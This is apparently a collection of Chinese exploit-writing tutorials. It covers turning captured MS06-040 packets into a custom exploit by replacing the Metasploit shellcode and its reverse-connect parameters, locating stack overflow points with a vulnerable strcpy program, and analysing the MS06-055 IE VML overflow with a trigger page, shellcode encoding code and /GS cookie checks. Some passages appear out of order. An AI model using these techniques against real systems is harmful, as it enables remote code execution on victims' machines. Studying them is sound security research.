图 7：在 `RPC3_data` 报文数据偏移 `132H` 处存放了编码密钥（循环移位后）。

同时，还发现在 `RPC4_data` 报文数据偏移 `2H` 和 `E8H` 处分别存放着反连 IP 和端口的参数编码，如图 8 所示。

```
AD D0 6D 2D ...
...
(95.43.99.2D / 50.1E / 192.168.3.100 等参数位置示意)
```

图 8

到这里我们就确定了 ShellCode 的编码方式、编码密钥以及相关参数的位置，接下来就是准确定位 ShellCode。由于解码部分本身未编码，且一般较短，可通过识别常见解码起始序列定位。

```c
// 变体 SHELLCODE 开始处
0x33, 0xC9, 0x83, 0xE9, 0xB6, 0xE8, 0xFF, 0xFF, 0x76, 0x9E...
// 下面是编码 KEY 左移后的 1 字节，右移 1 字节后为 KEY
0xB0, 0xA8, 0xD8, 0x7E...
```

图 9

OK，到这里我们已经能够完全定位 ShellCode 了。利用 Metasploit Framework 提供的 ShellCode 可直接使用，也可进行后期加工。

## 打造自己的 Exploit

有了前面的分析，构造自己的攻击程序就比较容易。将原来的 ShellCode（包括解码部分）替换为自己的内容，按照原报文发送顺序测试即可。

> 大家在写程序时要注意 SMB 及 RPC 头部问题。如果 ShellCode 要通过多个报文发送，每个报文开始处必须是 SMB 和 RPC 协议头，随后才是 ShellCode。

### 小结

本文简单分析了 MS06-040 漏洞，着重讲解了如何通过 Metasploit Framework 编写攻击代码。该方法在实践中有效，希望对漏洞研究者有所帮助。

适合读者：溢出爱好者  
前置知识：C 语言、汇编知识

## 菜鸟版 Exploit 编写指南之三（下）

## 堆栈溢出点定位原理分析


大家都知道，缓冲区溢出的利用可简单分为三步：① 漏洞分析，定位溢出点；② 编写 shellcode；③ 修改溢出点使其跳转到 shellcode。这样有漏洞的程序会改变执行流程，进入构造的 shellcode 中。

每一个漏洞对 shellcode 都有不同限制，因此编写需要较强编程功底和底层分析能力。修改溢出点常用 `JMP ESP` 或通过异常处理链写入跳转地址等方式，具体与系统和程序环境有关。

比较困难。基于漏洞分析、定位溢出点，如果是一般的第三方程序结合 IDA、OD 等工具还好说；但如果是分析操作系统内部，那么就需要大家对系统底层有很深入的了解，应该说是非常熟悉才行。

道路是曲折的，前途是光明的。虽然在安全领域遇到的困难比我们想象的要多得多，但决不应该成为我们追梦的绊脚石。

### 缓冲区堆栈溢出原理

不管是杂志上，还是网络上，都有很多通过溢出经典函数 `strcpy` 讲解堆栈溢出的。几乎都是使用如图 1 所示的草图，其原理是：当拷贝的字符串长度超过了 `buffer` 的大小，便会覆盖 EBP 和 EIP，比如都覆盖为 A（16 进制 41）；当系统返回的时候便会恢复 EIP 的值并读取之，这时候因为 EIP 被覆盖了，所以出现 `41414141` 不可读的错误；所以我们只要把 EIP 覆盖为 shellcode 的地址，那么就可以达到溢出攻击的目的。那么，这个草图是怎么分析出来的呢？

| 栈内布局（示意） |
|---|
| 系统或程序分配的缓冲区 `buffer` 大小 |
| 堆栈寄存器 EBP |
| 进入函数前保存的 EIP |


### 堆栈溢出定位的方法

关于堆栈溢出定位的办法，主要有两种：一种是通过不断修改字符串长度，通过 OllyDBG 等调试器或者系统错误提示来直接分析出溢出点；这样最好是自己写个程序和脚本实现，毕竟数据量大的时候手工测试会很头疼。另一种是通过字符串有规律的循环来计算出溢出点的位置。关于这两种方法的详细操作步骤，大家可以参考 superhei 写的《堆栈定位的两种办法》，这里就不讨论了；不过后面的讲解也会稍有涉及。

### 堆栈溢出定位的原理

相信大家和笔者一样，在定位有堆栈溢出漏洞程序的时候，大多经常采用上面的两种办法，特别是后者。但是方法毕竟只是属于技巧，就像测试 Web 安全的时候，在 `get` 提交方式的网址后面加 `"` 或者 `and 1=1` 等，判断是否存在注入漏洞一样。不知大家有没有想过：为什么这两种办法可以精确定位到溢出点呢？下面就和大家带着上面的两个疑问来分析讨论一下，毕竟实践出真知嘛！

我们先写一个将会出问题的程序吧，很简单，相信会一点 C 语言的读者都可以看懂。

```c
#include <stdio.h>
#include <string.h>
void overflow(char buf[])
{
    char out[400];
    int i;
    strcpy(out, buf); // 溢出问题函数
    for (i = 0; i < 300; i++)
        printf("\\x%x", out[i]);
}

int main(void)
{
    char buf[500] = {0};
    int i;
    for (i = 0; i < 300; i++)
        buf[i] = 'A';
    overflow(buf);
    return 0;
}
```

```c
// 右栏续：测试程序代码片段（与左下代码同一程序）
int i;
strcpy(out, buf); // 溢出问题函数
for (i = 0; i < 300; i++)
    printf("\\x%x", out[i]);
...
```

当然，上面是一个正常的程序 `test.exe`，结果是打印 300 个字符 A。这里分析 `test.exe` 主要是为了分析一下堆栈里的正常情况，从而解决第一个问题。大家都知道在进入一个函数的时候，程序都会将指向下一条指令的寄存器 EIP 压入堆栈，以便返回时能够继续保持程序正常运行。那么，具体的情况是怎样的呢？

我们用 OD 载入 `test.exe`，进入到 `overflow` 函数的时候，在堆栈窗口我们可以看见 `EIP:004010DD` 已经被压入堆栈。通过 OD，我们也知道，在此之前 `overflow` 函数的参数也已经被压入堆栈，其结构如下：

| 栈结构（进入 overflow 前后） |
|---|
| 指令寄存器 EIP |
| 堆栈指针 ESP 此时也指向这里 |
| overflow 函数的参数（如传递的 AAAA...） |

进入 `overflow` 函数后，我们来分析一下汇编代码。此处要注意，入栈一次 `esp-4`，出栈一次 `esp+4`。

```asm
push ebp
; 将 ebp 压入堆栈
mov ebp, esp
; 将 esp 的值送入 ebp
sub esp, 194
; 开辟缓冲区空间大小
mov eax, dword ptr ss:[ebp+8]
push eax
lea ecx, dword ptr ss:[ebp-190]
push ecx
call overflow.00401120
; strcpy 参数 -> strcpy(ecx, eax)
add esp, 8
; 下面进入 for 循环
mov dword ptr ss:[ebp-194], 0
jmp short test.00401037
mov edx, dword ptr ss:[ebp-194]
add edx, 1
```

### 溢出研究（3）

```asm
mov dword ptr ss:[ebp-194], edx
cmp dword ptr ss:[ebp-194], 190
jge short test.00401073
mov eax, dword ptr ss:[ebp-194]
movsx ecx, byte ptr ss:[ebp+eax-190]
test ecx, ecx
je short test.00401073
mov edx, dword ptr ss:[ebp-194]
movsx eax, byte ptr ss:[ebp+edx-190]
push eax
push test.00406030 ; ASCII "%x%x"
call test.004010E7
add esp, 8
jmp short test.00401028
...
mov esp, ebp
pop ebp
retn
```

在汇编语言中，`retn` 相当于 `pop eip`，也就是将 `esp` 的值送到 `eip` 中。通过最后几条汇编代码，可以看出这种传送方式为 `esp -> eip`。

通过分析实践，可以得到 overflow 函数简单堆栈结构的草图（如图2）。

| 堆栈项 |
|---|
| 系统或程序分配的缓冲区大小 |
| 寄存器 ebp |
| 进入函数前保存的指令寄存器 EIP |
| overflow 函数的参数 |
| …… |

图2

通过 OD 调试实践可得：进入函数前会将下一条指令的 `eip` 压栈；进入函数后 `ebp` 压栈，再将 `esp` 送到 `ebp`；函数返回时执行 `mov esp, ebp; pop ebp; retn`，最终从栈中恢复并跳转。

函数 `strcpy` 未进行边界检查时，输入参数超过 400 会覆盖 `ebp` 和 `eip`，在 `retn` 时将覆盖值送入 `eip`，导致程序出错。

若将 `eip` 覆盖为 shellcode 地址即可实现溢出攻击。不同函数的栈结构可能有差别，需要具体分析。这里还提到 VC 编译器按四字节对齐。

前文分析在可见源码条件下可定位溢出点；黑盒场景中可依据异常现象和草图定位。将 C 代码中 for 循环的 300 改为 500，运行会出现熟悉提示（图3）。

> 内存地址 41414141 不可读

图3

第一种办法：不断修改字符串长度直到定位溢出点，例如 402 未完全覆盖、403 完全覆盖、404 开始即为溢出点，适合脚本实现。

第二种办法：保持长度为 500，修改赋值表达式并观察错误地址（图4、图5），再通过十六进制差值换算定位溢出点。

> 内存地址 69696969 不可读

图4

> 内存地址 48474645 不可读

图5

文中给出换算：`0x69-0x41=0x28`、`0x45-0x41=0x4`，得 `40*10+4=404`，说明可通过报错地址反推覆盖位置。

进一步解释 `buf[i] = 'A' + i/10` 与 `buf[i] = 'A' + i%10` 两种模式下字符分布差异，用以判断哪些字节覆盖到 `eip`。


图6

根据图6继续推导：在 `'A'~'J'` 循环模式下，报错地址 `48474645` 可对应进入 `eip` 的首字节位置，进而确定精确覆盖偏移。

- 适合读者：溢出爱好者
- 前置知识：汇编基础

## 菜鸟历险记 Exploit 编写指南之二十九


## 漏洞挖掘 MS06-055

文/图 failwest

> To be the apostrophe which changed “Impossible” into “I’m possible”!

### 漏洞分析及利用

我们可以在微软的安全技术网页或者 US-CERT 上得到一些关于这个漏洞的简要描述。微软的 IE5.0 以上版本会支持一种向量标记语言（VML）来绘制图形。IE 在解析畸形的 VML 的时候会产生堆栈溢出的错误，如果利用者精心构造一个含有这样畸形的 VML 语句的网页，并骗取用户点击这样的网页，就可以利用 IE 在用户的机器上执行任意代码。

参考这些简要的描述和“nop”公布的攻击代码，我们可以实际动手调试一下这个漏洞。

引起栈溢出的是 IE 的核心组件 vgx.dll。这个文件在 `C:\Program Files\Common Files\Microsoft Shared\VGX` 和 `C:\WINDOWS\system32\dllcache` 两个目录下。如果你的机器上已经打过 MS06-055 的补丁的话，你可以到 `C:\Windows\$NtUninstallKB925486$` 找到原来的有漏洞的文件。

我们首先用 IDA 把它反汇编，获得一个比较全局的把握。发生栈溢出的函数是 `_IE5_SHADETYPE_TEXT::Text(unsigned short const *, int)`，在这个函数初始化的地方有一条指令。

下面我们用一个实际的例子来说明这个溢出问题。我的调试机器是 Windows XP SP2。首先创建一个 HTML 文件，其内容如下：

```html
<html xmlns:v="urn:schemas-microsoft-com:vml">
<head>
  <title>failwest</title>
  <style>
    <!-- v\:* { behavior: url(#default#VML); } -->
  </style>
</head>
<body>
  <v:rect style="width:444pt;height:444pt" fillcolor="black">
    <v:fill method="QQQ"/>
  </v:rect>
</body>
</html>
```

这是一个含有 VML 描述的页面。保存后用 IE 打开，应该可以看到一个很大的黑色正方形。这就是 VML 语言相对于图片格式的好处——只要几个字节描述一下形状、颜色、坐标信息等属性，就能绘制出精确的图形。

讨论 VML 技术不是本文的重点，我们继续讨论这里的溢出问题。用 OllyDBG 连接到现在的 IE 进程上，在 Text() 函数开始的地方下断点。

我们可以用 IDA 辅助查找到 Text() 函数的入口地址，我这里是 `0x6FF3ED46`，直接用组合键 Ctrl+G 跳到这个位置，按 F2 下断点。

### 实战过程

它开辟了一个 `0x214` 的栈空间。在 Text() 函数执行的过程中，会两次调用另一个函数 Ptok()，Ptok() 会把 HTML 页面中 VML 描述里一个域中的字符串按照 Unicode 的形式复制到这个栈空间中。

Windows 堆栈是按高地址向低地址分配的，所以第一个字节是 `0x45` 而不是 `0x48`。因为是一个字节循环，所以 `0x45` 与 `0x41` 相隔 `4*1=4` 个字节，最后就可以得出溢出点是从 `400+4=404` 个字节开始，这和白箱测试结果一样，从而第二个问题也就解决了。

为什么呢？我们前面讲过 VC 编译器是按 4 字节对齐，在为 out 数组分配空间的时候，按 4 字节也会分配 400 个字节大小的缓冲区。虽然这只是一个小小的分析，但我觉得，有问题就要想办法解决，最好是自己动手，这样可以增强自己的逆向分析能力。

### 小结

大家可以把 out 数组的长度改为 398，最后得出覆盖点也是 404。很多时候，教程讲解的都是和作者操作机器或者程序有关，所以自己动动手，实践一下，会学会很多以前没学到的东西。

而不是采用 attach 的话，vgx.dll 可能还没有被 load，那么 IDA 中找到的 RVA 可能是无效区域。

刷新页面，这时候 OllyDBG 会在函数入口处断下进程，用 F8 单步执行……这时候注意一下栈中的状态，就在离栈顶几个字节的地方，有 4 个 Unicode 形式的字符“Q”被复制到栈空间中了……

| 地址 | 含义 |
|---|---|
| 0012BE70 | Unicode 字符串起址 |
| 0012C070 | 存放 Security Cookie |
| 0012C074 | EBP |
| 0012C078 | return address |
| 0012C084 | 返回后的 ESP |

很明显，实际为 Unicode 字符串分配的可使用空间是 `0x200`……栈中能够接受的最多字符就是 255 个。这是一个比较典型的栈溢出……如果页面中包含有 Shellcode 的话，点击链接后 IE 可能会悄无声息地执行攻击者想要的代码。

如果你要制作自己的 Shellcode 来利用这个漏洞，还需要解决一个问题：Ptok() 在复制到栈空间时会进行 Unicode 转换……例如 `&#37008;` 会按数字解释并以对应形式出现在栈空间。

```c
void convert2ncr(unsigned char *buf, int size)
{
    int i=0;
    unsigned int ncr = 0;
    for(i=0; i<size; i+=2) // read a word
    {
        ncr = (buf[i+1] << 8) + buf[i];
        fprintf(fp, "&#%d;", ncr);
    }
}
```

### 2.2 Windows XP SP2 的安全编译选项

经过上面的分析，即使是一个刚学溢出的新手也能在 Windows 2000 上成功实现攻击；但是在 Windows XP SP2 系统中，vgx.dll 在编译时使用了 /GS（Buffer Security Check）选项，因此要成功利用是非常困难的。

下面我们就来看看这个编译选项在机器码里做了些什么，到底是怎样保护程序不被溢出攻击的。用 IDA 反汇编 vgx.dll，其 Text() 函数代码如下：

```asm
.text:6FF3ED46  mov edi, edi
.text:6FF3ED48  push ebp
.text:6FF3ED49  mov ebp, esp
.text:6FF3ED4B  sub esp, 214h
.text:6FF3ED51  mov eax, __security_cookie
...
.text:6FF3ED92  call ...::Ptok
...
.text:6FF3EDE2  call __security_check_cookie(x)
.text:6FF3EDE7  leave
.text:6FF3EDE8  retn 8
```

大家可能已经注意到了，在函数开始的地方有对 `__security_cookie` 的处理；该 cookie 的值被放在 `[EBP+4]` 附近位置。在函数返回前会调用 `__security_check_cookie(x)` 检查对应 DWORD 是否被修改。

如果该值与开始存入的 cookie 不一样（被覆盖），则进入异常处理，正常函数返回就得不到执行。要覆盖返回地址必须先覆盖这个 cookie。调试可见 cookie 地址在 vgx 的数据段，且每次启动 IE 进程都不一样，几乎无法在 Shellcode 中预测。

通过这样的保护机制，在 Windows XP SP2 上不论怎么精确覆盖 ESP 这些地方都没有用，因为不执行 ret，我们的 Shellcode 就得不到执行。